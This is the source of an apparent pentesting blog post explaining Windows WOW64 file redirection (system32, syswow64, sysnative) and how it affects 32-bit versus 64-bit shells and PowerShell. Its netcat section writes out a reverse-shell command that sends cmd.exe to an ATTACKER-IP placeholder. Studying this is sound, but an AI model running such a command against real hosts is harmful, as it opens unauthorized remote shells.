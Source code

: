 ```yaml
---
layout: post
published: true
featured: true
title: WOW64 for Pentesters
headline: 'WOW64'
description: WOW64 for Pentesters
modified: '2019-03-01'
categories:
  - hacking
  - windows
tags: hacking windows wow64 powershell sysnative pentest oscp
---
```

## The Problem

Exploit code can be challenging to make work, it can be rough around the edges, specific to certain environments and libraries, and have syntax errors and bugs.  Some Windows-based exploits require an understanding and navigation of 32-bit application compatibility on 64-bit systems, which Windows calls "Windows on Windows" or WOW64.  This also applies to Powershell, which has both 32-bit and 64-bit versions of powershell.exe.

## The Solution

The 64-bit versions of Windows provide an emulation layer for 32-bit applications that provide access to 32-bit versions of libraries, executables, directories and registry keys so that these apps can run transparently without modification. 

This emulation layer is called WOW64 (Windows on Windows) and by understanding how it works, you can run 64-bit versions of apps from a 32-bit process and vice versa.

### Detecting 64-bit Windows

There are several ways to detect a 64-bit version of Windows, one of which is to use the _set_ command to display environment variables and look for processor architecture. Another simple way is to verify the presence of the _Program Files (x86)_ directory, which only exists on 64-bit versions of Windows.

### File Redirection for 32-Bit Apps

Windows 64-bit libraries and executables are located in the _%SYSTEMROOT%\system32_ directory.  The name may seem confusing, but was done to maintain backwards compatibility because of hard coded paths.  

Windows 32-bit libraries and executables are located in the _%SYSTEMROOT%\syswow64_ directory, but instead of having to modify paths in source code, WOW64 transparent redirects 32-bit app calls from _%SYSTEMROOT%\system32_ to _%SYSTEMROOT%\syswow64_.

A 32-bit app can also explicitly access 64-bit versions using the _%SYSTEMROOT%\sysnative_ path (not visible in Windows Explorer).

```powershell

32-bit app > 32-bit versions > \system32 ( secretly redirected to \syswow64)
32-bit app > 64-bit versions > \sysnative

```

A 64-bit application can also access 32-bit versions directly using \syswow64.


```powershell

64-bit app > 32-bit versions > \syswow64

```
<p> </p>
### Netcat Example

When spawning a command shell from a Windows system, in many situations you might transfer nc.exe to the host to spawn a reverse shell using the _-e cmd.exe_ switch.  Because the nc.exe binary is 32-bit, it will call the 32-bit version of cmd.exe and any commands you use will be 32-bit versions, including powershell.exe. 

There's a few ways around this if needed:

Explictly spawn the 64-bit version of cmd.exe with netcat if you are certain your target is 64-bit:

```powershell

  nc.exe -e %SYSTEMROOT%\sysnative\cmd.exe ATTACKER-IP ATTACKER-PORT

```
<p> </p>

Spawn the 32-bit cmd.exe but explicitly call 64-bit versions of apps, using  the sysnative path.
Here's an example I had to use recently to explicitly open a 64-bit powershell prompt from a 32-bit cmd.exe shell.

```powershell

  %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe

```
<p> </p>

## Further Reading

- <a href="https://docs.microsoft.com/en-us/windows/win32/winprog64/wow64-implementation-details" target="_blank">WOW64 Implementation</a>
- <a href="https://docs.microsoft.com/en-us/windows/win32/winprog64/running-32-bit-applications" target="_blank">Running 32-Bit Applications</a>
- <a href="https://docs.microsoft.com/en-us/windows/win32/winprog64/accessing-an-alternate-registry-view" target="_blank">Accessing Alternate Registry Views</a>

<p>&nbsp;</p>  
<p>&nbsp;</p>  
